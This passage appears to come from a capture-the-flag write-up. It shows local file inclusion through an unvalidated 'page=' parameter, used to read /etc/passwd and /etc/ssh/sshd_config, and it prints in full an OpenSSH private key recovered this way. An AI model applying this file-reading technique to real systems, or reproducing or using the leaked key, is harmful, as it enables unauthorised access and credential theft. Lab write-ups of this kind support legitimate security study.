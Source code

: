 
The `page=` parameter is directly used to fetch a file. The application does not validate or restrict the input, allowing an attacker to specify arbitrary file paths. Let's read `/etc/passwd` to test:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250320154709.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250320154734.png)


# EXPLOITATION
---

We already found the LFI, calling back from the note, `id_rsa` files may exist, let's try to read `dale` file:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250320155431.png)

Nothing happens, this is because as the note said, we need to find a `relevant config` file, for example, the ssh config file is located at `/etc/ssh/sshd_config`, let's try to read it:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250320155547.png)
And there it is, there's our `id_rsa` file:

```id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/Wo
G+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWKo9
WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxPzMU
ILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAuk5xu
mOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKSxtA1J
4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S0soiab
Hiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2EAAAGB
AJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnUeKHJOH
RY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v7n5VNH7
cZBxOeB9S5dNx2zftB+CTPyJ177s+FPQ39PZvfSWIug1cOVxrGliqPVqh4S+V0vJWLv38uV
QGDnydKck4fCHYRVLgM37gvn49AXEOnjxYcRBelmjQkqStr/qsT8zFCC0Hc7a/FoVEU8bmj
kDiMUNsSfs1gyjIsp8yf5c8JiOBIjio9f54f8OyPK5OowY2qgLpOcbpjsT58lgBojNFzgUn
4GlPngA3Ghn8EhdWtICPBv07SX23Ft94J8GQVYXN9LixvCaCksbQNSeMkWs4xKivIVPBVL6
MLBhpbPra5MQWIHHlsCRVLnWIwatjW19oJSs+dr6hWXWwGtUtLKImmx4rsHftzf8oLErg4T
oSiIODFh+lXiXEjCKwAAAAMBAAEAAAGAGQ9nG8u3ZbTTXZPV4tekwzoijbesUW5UVqzUwbR
eU99WUjsG7V50VRqFUolh2hV1FvnHiLL7fQer5QAvGR0+QxkGLy/AjkHOeXC1jA4JuR2S/A
y47kUXjHMr+C0Sc/WTY47YQghUlPLHoXKWHLq/PB2tenkWN0p0fRb85RN1ftjJc+sMAWkJf
wH+QqeBvHLp23YqJeCORxcNj3VG/4lnjrXRiyImRhUiBvRWek4o4RxgQ4MUvHDPxc2OKWaI
IBbjTbErxACPU3fJSy4MfJ69dwpvePtieFsFQEoJopkEMn1Gkf1HyiU2lCuU7CZtIIjKLh9
0AT5eMVAntnGlK4H5UO1Vz9Z27ZsOy1Rt5svnhU6X6Pldn6iPgGBW/vS5rOqadSFUnoBrE+
Cnul2cyLWyKnV+FQHD6YnAU2SXa8dDDlp204qGAJZrOKukXGIdiz82aDTaCV/RkdZ2YCb53
IWyRw27EniWdO6NvMXG8pZQKwUI2B7wljdgm3ZB6fYNFUv5AAAAwQC5Tzei2ZXPj5yN7Egr
Qk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0qz+zdN4wIKHMdAg0yaJUUj
9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6RuSnARrKjgkXT6bKyfGeIV
nIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7/ocepv6U5HWlqFB+SCcuhCf
kegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzxsQD/wqj5cQx+HJ82QXZBtwO9
cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODbmPZgp7FnSJDPbeX6an/WzWWib
c5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur4fu7GSqPx30NEVfArs2LEqW5Bs
/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfge9VbKXg7fLF28FxaYlXn25WmXpB
HPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S2BRGRg22JACuTYdMFONgWo4on+pt
EFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH8kUREDVyzgbpzIlJ5yyawaSjayM+B
pYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqXb1wrZt/BTpIg+d+Fc5/W/k7/9abnt3
OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7CPFMeoYeUdghftAAAAE3A0aW50LXA0
cnJvdEBwYXJyb3QBAgMEBQYH
-----END OPENSSH PRIVATE KEY-----
```